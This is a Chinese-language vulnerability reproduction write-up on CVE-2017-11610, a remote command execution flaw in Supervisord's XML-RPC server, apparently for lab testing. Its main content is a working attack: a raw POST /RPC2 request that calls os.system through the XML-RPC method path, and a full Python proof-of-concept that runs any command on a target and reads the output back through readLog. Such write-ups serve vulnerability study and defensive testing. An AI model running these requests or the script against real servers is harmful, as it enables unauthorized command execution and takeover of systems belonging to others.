 # （CVE-2017-11610）Supervisord 远程命令执行漏洞

## 一、漏洞简介

Supervisor是一套进程控制系统，用于监视和控制类Unix系统上的进程。XML-RPC server是其中的一个XML-RPC服务器。 Supervisor中的XML-RPC服务器存在安全漏洞。远程攻击者可借助特制的XML-RPC请求利用该漏洞执行任意命令。

## 二、漏洞影响

supervisor 3.0.1之前的版本，3.1.4之前的3.1.x版本，3.2.4之前的3.2.x版本，3.3.3之前的3.3.x版本。

## 三、复现过程

直接执行任意命令：

```html
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>
```

![image](images/img1.png)

### 关于直接回显的POC

@Ricter 在微博上提出的一个思路，甚是有效，就是将命令执行的结果写入log文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来。

写了个简单的POC： [poc.py](https://github.com/vulhub/vulhub/blob/master/supervisor/CVE-2017-11610/poc.py "poc.py")，直接贴出来吧：

```python
#!/usr/bin/env python3
import xmlrpc.client
import sys


target = sys.argv[1]
command = sys.argv[2]
with xmlrpc.client.ServerProxy(target) as proxy:
    old = getattr(proxy, 'supervisor.readLog')(0,0)

    logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
    getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
    result = getattr(proxy, 'supervisor.readLog')(0,0)

    print(result[len(old):])
```

使用Python3执行并获取结果：```shell
./poc.py "http://your-ip:9001/RPC2" "command"
```：

![image](images/img2.png)

## 参考链接

https://vulhub.org/#/environments/supervisor/CVE-2017-11610/

https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html

https://blogs.securiteam.com/index.php/archives/3348

https://github.com/Supervisor/supervisor/commit/90c5df80777bfec03d041740465027f83d22e27b
